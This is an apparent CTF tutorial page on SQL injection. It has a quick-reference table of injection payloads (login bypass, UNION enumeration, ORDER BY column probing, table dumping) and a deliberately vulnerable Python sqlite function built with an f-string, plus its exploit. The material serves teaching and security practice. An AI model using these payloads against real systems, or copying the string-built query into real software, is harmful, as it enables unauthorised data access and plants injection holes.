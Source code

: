 ```yaml
---
title: "SQL Injection"
description: "Exploit SQL injection vulnerabilities to manipulate database queries and extract sensitive information in CTF web challenges."
date: 2025-10-06
draft: false
categories: ["Web"]
tags: ["sqli", "sql injection", "database exploitation", "web security"]
authors: ["CTF.Support Team"]
summary: "Learn how SQL injection works and how to exploit improperly sanitized database queries to retrieve flags and data in CTFs."
aliases: ["/web/sql-injection/"]
slug: "sql-injection"
toc: true
---
```


## Introduction

SQL Injection (SQLi) occurs when user input is improperly concatenated into a SQL query, allowing direct control over its execution.
In CTFs, this often exposes login bypasses or flag tables within databases.

## Quick Reference

| Task                                      | Example                                                          |
|-------------------------------------------|------------------------------------------------------------------|
| Test for boolean login bypass             | `' OR 1=1 --`                                                    |
| Enumerate databases                       | `' UNION SELECT schema_name FROM information_schema.schemata --` |
| Identify columns via error-based strategy | `' ORDER BY 5 --`                                                |
| Dump table contents                       | `' UNION SELECT column1, column2 FROM users --`                  |

## Example

### Vulnerable Code (Python)

```python
import sqlite3

def get_user(username):
    conn = sqlite3.connect('users.db')
    cursor = conn.cursor()
    query = f"SELECT * FROM users WHERE username = '{username}'"
    cursor.execute(query)
    return cursor.fetchall()
```

#### Exploit

Inject input:

```sql
' OR 1=1 --
```

Resulting query:

```sql
SELECT * FROM users WHERE username = '' OR 1=1 --'
```

This returns all rows, granting unintended access.
